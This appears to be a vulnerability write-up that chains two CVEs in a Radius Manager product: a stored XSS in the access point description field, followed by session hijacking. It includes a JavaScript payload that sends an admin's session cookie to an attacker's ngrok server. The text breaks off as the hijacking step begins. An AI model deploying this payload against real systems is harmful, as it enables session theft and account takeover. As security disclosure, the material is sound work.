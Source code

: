 * [Dropbox - xss2-2021-03-19_21.15.10.mkv](https://www.dropbox.com/s/yzls7l7vrqq8ym9/xss2-2021-03-19_21.15.10.mkv?dl=0)

# Chaining CVEs Together

This section details chaining together CVE-2021-29012 & CVE-2021-29011 in order to take an admin's session cookie & perform requests on their behalf.

There are multiple fields that are vulnerable to cross-site scripting but I could only find 1 field (the access point description field) that could fit an entire script for extracting a cookie & sending it off to an attacker for use in session hijacking.

## Tools Used:

1. Ngrok & Python's simple HTTP server to simulate an attacker's server receiving the session cookie

## Proof of Concept

Once we place our script inside the Access Point's description, anytime a user lists the available access points, we will receive their session cookie on our server & be able to impersonate them.

### Cross Site Scripting (XSS)

We first need to inject our script into an input field so that whenever an admin logs in & lists the available access points, their cookie is sent to us (the attacker in this scenario).

The script used that will be injected is:

```javascript
<script> 
var xl = new XMLHttpRequest(); 
const url = 'http://dat.ngrok.io/cookie=' + document.cookie; 
xl.open("GET", url, false); xl.send();alert(xl.responseText);
</script>
```

where dat is the subdomain generated by ngrok. And we will be injecting it into the description field when adding/editing an access point.

After listing the available access points as an admin, this is what an attacker would see:

![](./imgs/img3.png)

As you can see, we have everything we need in order to impersonate the admin user and this was achieved just by having them list the available access points. This of course requires that an attacker already have an account registered on the Radius Manager with sufficient privileges to add/edit an access point.

### Broken Session Management Exploitation

The next stage of the attack would be abusing the broken session management in order to make requests on someone else's behalf without their interaction. This simply involves intercepting the request exchanging the cookie parameter with the stolen one:
